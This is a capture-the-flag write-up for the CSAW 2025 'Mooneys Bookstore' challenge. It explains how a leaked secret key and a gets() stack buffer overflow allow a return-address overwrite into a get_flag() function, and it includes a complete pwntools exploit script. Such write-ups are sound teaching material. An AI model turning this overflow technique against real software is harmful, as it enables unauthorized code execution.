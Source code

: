 ```yaml
---
title: "CSAW CTF Quals' 2025 Writeup"
permalink: /csaw-ctf-quals-2025
---
```


# Writeup for "Mooneys Bookstore" Challenge
We are given a pwn challenge binary, `overflow_me`.

First, we look at the file's info with `file overflow_me` and see we are working with an x86-64 ELF file that hasn't been stripped:
```
overflow_me: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d6a8fb91df07f04d257b59b8230f6ddb1d8507e, for GNU/Linux 3.2.0, not stripped
```

Then, we check the security mechanisms in place with `checksec overflow_me` and see there is no canary and that the stack is not executable:
```
[*] '/Users/lomichael/ctf/csaw2025/mooneys-bookstore/overflow_me'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

Running the binary (`./overflow_me`), we see the printout below, prompting us for an address:
```
Mooney's. The bell above the door cries out, and suddenly... it's you. Of course it's you.
Every shelf bends toward you, every page waits to be touched by you.
You think you're just here to buy a book. But I know better.
You came here to be seen. By me.

Your favorite book waits for you. Tell me its address

```

Since we do not know what address to provide, we analyze the binary in Ghidra to see what is going on.

The `main()` function decompiled by Ghidra looks like:
```C
undefined8 main(void)

{
  FILE *ctx;
  long local_18;
  undefined8 *local_10;
  
  setvbuf(stdout,(char *)0x0,2,0);
  ctx = stdin;
  setvbuf(stdin,(char *)0x0,2,0);
  init((EVP_PKEY_CTX *)ctx);
  puts(&DAT_00402018);
  puts("\nYour favorite book waits for you. Tell me its address");
  read(0,&local_10,8);
  printf("%lx\n",*local_10);
  puts("\nOf course there\'s a key. There always is. If you speak it, the story unlocks");
  read(0,&local_18,8);
  if (local_18 == secret_key) {
    get_input();
  }
  else {
    puts(&DAT_004021b0);
  }
  return 0;
}
```

In the decompiled code above, we can see that if we successfully provide the `secret_key`, the `get_input()` function will be called. Conveniently, the code dumps the value at an address for us, in the lines:
```C
puts("\nYour favorite book waits for you. Tell me its address");
read(0,&local_10,8);
printf("%lx\n",*local_10);
```
We can use this to get the value of the address labeled `secret_key` (i.e. 0x004040b8) and thus pass the check to call `get_input()`.

Inspecting the `get_input()` function in Ghidra, we see:
```C
void get_input(void)

{
  char local_58 [64];
  long local_18;
  FILE *local_10;
  
  local_10 = fopen("/dev/urandom","rb");
  if (local_10 == (FILE *)0x0) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  fread(&val,8,1,local_10);
  fclose(local_10);
  local_18 = val;
  printf("\n\tA post-it on the floor. You would have stepped over it. I didn\'t. It has something fo r you: 0x%lx\n"
         ,val);
  puts("\nYour turn now. Write yourself into this story.");
  fflush(stdout);
  gets(local_58);
  if (local_18 != val) {
    puts("\nDisappointing. But that\'s you, isn\'t it? Messy. Human. And I stay anyway.");
    fflush(stdout);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  return;
}
```

Immediately, notice the line `gets(local_58)`, which is a common vulnerability, allowing unbounded input. Abusing this, we can overflow the buffer `local_58`, writing into other parts of the stack. There is no obvious way to print the flag in the decompiled `get_input()` function, but we know that we can write into the return address using the stack buffer overflow vulnerability. We can look in the "Functions" section of the Symbol Tree in Ghidra and see a `get_flag()` function that `cat`s the flag for us:
```C

void get_flag(void)

{
  fflush(stdout);
  system("cat flag.txt");
  fflush(stdout);
                    /* WARNING: Subroutine does not return */
  _exit(0);
}
```
If we place the address of this `get_flag()` function (i.e. 0x00401425) as the return address for the current stack frame, we can hijack the control flow to end up in `get_flag()`.

Before we do this, however, we must be cautious, since `get_input()` does a comparison with the `val` variable. If this check fails, the function exits prematurely, not returning the control flow to the `get_flag()` function. So, we must ensure that the value on the "post-it" printed by the program is inserted in the proper local (`local_18`) on the stack, so the check can pass.

So, our plan of attack now looks like:
- Send the address labeled `secret_key` to get its value
- Send the `secret_key` value to call `get_input()`
- Place `val` in `local_18` to avoid a premature exit()
- Place address of `get_flag()` into the ret address and return

Putting it together in a pwntools script we then get:
```Python
from pwn import *

p = remote("chals.ctf.csaw.io", 21006)

p.recvuntil(b"Tell me its address")
p.send(p64(0x4040b8)) # send address of secret_key to get its value

throwaway = p.recvline().strip()
line = p.recvline().strip()
secret_key = int(line, 16)

p.send(p64(secret_key)) # send secret_key to pass check before call get_input()

while b'0x' not in line:
    line = p.recvline().strip()

val = int(line.split(b'0x')[1], 16) # parse the output to get val

payload = b'\x00' * 0x40 # pad the stack until local_18
payload += p64(val) # set local_18 to val
payload += b'\x00' * 0x10 # pad stack to ret address
payload += p64(0x401425) # set the ret address to get_flag

p.sendline(payload)

p.interactive()
```

Some explanations for the math behind the payload numbers:
- `gets(local_58)` writes into a 64-byte buffer at ebp-0x58
- writing 0x40 null bytes starting at ebp-0x58 lands us at ebp-0x18 which is the start of `local_18`
- after we write the 8-byte `val` into `local_18` at ebp-0x18 we are then writing at ebp-0x10
- writing 0x10 more null bytes lands us at the point where we can overwrite the return address 
